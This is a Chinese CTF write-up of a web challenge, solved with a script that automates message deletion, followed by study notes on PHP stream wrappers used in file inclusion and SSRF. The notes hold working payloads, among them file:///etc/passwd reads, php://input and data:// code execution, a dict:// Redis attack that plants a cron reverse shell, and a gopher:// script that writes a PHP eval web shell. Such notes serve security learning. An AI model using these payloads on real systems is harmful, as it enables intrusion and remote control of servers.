

## 西南交通大学 第六届 CTF 新秀杯

### Web

#### 组委会模拟器

描述:

```

每年比赛，组委会的一项重要工作就是时刻盯着群，并且撤回其中有 flag 和除了签到题的题解的消息。今年的网安也是好起来的，很多人开始水起群来了，这导致今年人手紧张起来了！

因为人手紧张，组委会的某名同学将这项工作外包给了你，你需要连续审查 1000 条消息，准确无误地撤回其中所有含 flag 的消息，并且不撤回任何不含 flag 的消息。

本题中，你需要撤回的 "flag" 的格式为 fake[...]，其中方括号内均为小写英文字母，点击消息即可撤回。你需要在 5 秒内撤回消息，否则撤回操作将失败。在全部消息显示完成后等待几秒，如果你撤回的消息完全正确（撤回了全部需要撤回的消息，并且未将不需要撤回的消息撤回），就能获得本题真正的 flag。
```

打开题后点了两下，F12发现post请求了：

```
/api/getMessages
/api/deleteMessage
/api/getflag
```

它们做了如下操作：

`/api/getMessages`向服务器获取消息列表。

当组委会撤回消息会POST `/api/deleteMessages`，发送ID号。

当全部撤回完后一段时间，POST `/api/getflag`，获取flag。

message格式：

```
{'messages': [{'delay': 0.13627789725761869, 'text': '这道题 flag 是fake[cffuwys]'}, {'delay': 0.5362774573774165, 'text': '今天是疯狂星期四！！'}, {'delay': 1.4077754633486774, 'text': '这道题 flag 是fake[utkexlfu]'}, {'delay': 1.7701952384083033, 'text': 'hucgedoewhn'}, {'delay': 2.2584770199536695, 'text': '这道题 flag 是fake[flzozgmdhj]'}, {'delay': 2.9936154892744136, 'text': '😅'}, {'delay': 3.1045501288387003, 'text': '0d000721'}, {'delay': 3.9103066223191507, 'text': '这道题 flag 是fake[lkufuenpapngzi]'}, {'delay': 4.290338739604455, 'text': '我在图书馆呢，签到题吓我一跳'}}
```

POC:

```python
import requests
import json
import time
getMessages_url = "http://8.137.85.79:20986/api/getMessages"
re = requests.post(getMessages_url)
data = json.loads(re.text)
print(data)
# 查找包含 'fake' 字段的元素并输出其序号
fake_indices = [index for index, message in enumerate(data['messages']) if 'fake[' in message['text']]
# 输出结果
print(fake_indices)
t = time.time()
#发送delete
for index in fake_indices:
    #防止发生时光穿梭
    times = data['messages'][index]['delay'] + t
    print(data['messages'][index]['delay'])
    print(time.time())
    while times > time.time():
        print("times="+str(times))
        print("time ="+str(time.time()))
        time.sleep(0.5)

    deleteMessag_url = "http://8.137.85.79:20986/api/deleteMessage"
    deleteMessag_data = {
        "id": index
    }
    re = requests.post(deleteMessag_url, json=deleteMessag_data)
    # print(data)
    print(re.text)

getflag_url = "http://8.137.85.79:20986/api/getflag"
re = requests.post(getflag_url)
print(re.text)
```

思路：先getmessages，然后分析哪几条消息里有 `fake[`特征，记录下他们的ID，发送给deletemessages，全部撤回完后在getflag。

这里在实践过程中遇到了一个问题。

就是消息在getmessages后会delay一段时间才显示出来，如果在显示出来之前就delete会触发错误：

`{"error":"检测到时空穿越","success":false}`

所以在python脚本中也要delay一段时间再发送delete。

解决办法：

先记录下getmessages的时间复制给t，web前端加载出来的时间即 `t+delay`。

于是只要保证当前时间小于 `t+delay`再发送delete。这里用while实现。

getflag：



# 知识收集

## PHP伪协议

https://blog.csdn.net/weixin_51735061/article/details/123156046

### file://协议

用来读取本地的文件，当用于文件读取函数时可以用。

常见检测是否存在漏洞写法：

www.xxx.com/?file=file:///etc/passwd

此协议不受allow_url_fopen,allow_url_include配置影响


### php://input协议

此协议一般用于输入getshell的代码。

使用方法：
在get处填上php://input如下

www.xxx.xxx/?cmd=php://input

然后用hackbar或者其他工具，postPHP代码进行检验，如

<?php>phpinfo()?>

此协议受allow_url_include配置影响


### php://filter协议

此协议一般用来查看源码

一般用法如下

www.xxx.xxx/?file=php://filter/read=covert,vase64-encode/resource=index.php

出来的是base64码需要进行解码

此协议不受allow_url_fopen,allow_url_include配置影响


### data://协议

需要allow_url_fopen,allow_url_include均为on

这是一个输入流执行的协议，它可以向服务器输入数据，而服务器也会执行。常用代码如下：

http://127.0.0.1/include.php?file=data://text/plain,`<?php%20phpinfo();?>`

text/plain，表示的是文本

text/plain;base64, 若纯文本没用可用base64编码


### dict://协议

与gopher协议一般都出现在ssrf协议中，用来探测端口的指纹信息。同时也可以用它来代替gopher协议进行ssrf攻击。

常见用法：

探测端口指纹
192.168.0.0/?url=dict://192.168.0.0:6379

以上为探测6379（redis）端口的开发

反弹shell
1、开启反弹shell的监听

nc -l 9999

2、依次执行下面的命令

curl dict://192.168.0.119:6379/set:mars:"\n\n * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n\n"
curl dict://192.168.0.119:6379/config:set:dir:/etc/
curl dict://192.168.0.119:6379/config:set:dbfilename:crontab
curl dict://192.168.0.119:6379/bgsave*

执行时，反弹shell的命令，也就是set:mars:xxx，会因为特殊字符的原因无法写入到目标的redis中，被被空格所分割导致出现一下情况：

1584705879.520734 [0 172.17.0.1:44488] “set” “mars” “\n\n*” “" "” “" "” “root” “bash” “-i” “>&” “/dev/tcp/192.168.0.119/6789” "0>&1\n\n"

我们会发现，命令被分割了，看表象感觉像是被空格分割了。此时将反弹shell的命令进行十六进制转换，变为：

curl dict://192.168.0.119:6379/set:mars:"\x0a\x2a\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20\x72\x6f\x6f\x74\x20\x62\x61\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x39\x32\x2e\x31\x36\x38\x2e\x30\x2e\x31\x31\x39\x2f\x39\x39\x39\x39\x20\x30\x3e\x26\x31\x0a"

以上单引号使用反斜杠\进行转移，其他数据进行十六进制编码，执行结果如下，可以发现没有错误了

1584706087.980465 [0 172.17.0.1:44490] “set” “mars” "\n * * * * root bash -i >& /dev/tcp/192.168.0.119/9999 0>&1\n"*

剩下的修改路径和文件名称的请求，正常执行即可


### gopher://协议

gopher://协议经常用来打内网的各种应用如mysql redis等。一般要用一些工具来进行构造payload 如gopherus等

之前用来打redis内网的脚本如下

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import urllib.request
from urllib.parse import quote

url = "http://192.168.239.78:41403/index.php?url="    #windows上搭建的ssrf漏洞页面
gopher = "gopher://0.0.0.0:6379/_" #/var/www/html
#auth nonono
# 攻击脚本
data = """
flushall
set test "\\n\\n<?php @eval($_POST[x]);?>\\n\\n"
config set dir /var/www/html
config set dbfilename shell.php
save
quit
"""
def encoder_url(data):
    encoder = ""
    for single_char in data:
        # 先转为ASCII
        encoder += str(hex(ord(single_char)))
    encoder = encoder.replace("0x","%").replace("%a","%0d%0a")
    return encoder

# 二次编码
encoder = encoder_url(encoder_url(data))

print(encoder)
# 生成payload
payload = url + quote(gopher,'utf-8') + encoder

# 发起请求
request = urllib.request.Request(payload)
response = urllib.request.urlopen(request).read()
print(response)
```


### zip://协议

zip://协议可以用来访问服务器中的压缩包，无论压缩包里面的文件是什么类型的都可以执行。也就是说如果服务器禁止我们上传php文件那么我们可以把php文件改后缀然后压缩再上传，然后用zip协议访问。要利用zip协议时一般要结合文件上传与文件包含两个漏洞

一般的代码为

www.xxx.xxx/?file=zip:///php.zip#phpinfo.jpg

其中的#好表示的是php.zip的子文件名。有时候#需要变成==%23==，url编码。

compress.bzip2://协议
与zip协议类似不过要压缩成bzip2格式的

compress.zlib://协议
与zip协议类似不过要压缩成zlib格式的

### phar://协议

phar://协议与zip://协议类似，它也可以访问zip包，访问的格式与zip的不同，如下所示

http://127.0.0.1/include.php?
file=phar:///phpinfo.zip/phpinfo.txt
#这里用/隔开了子文件
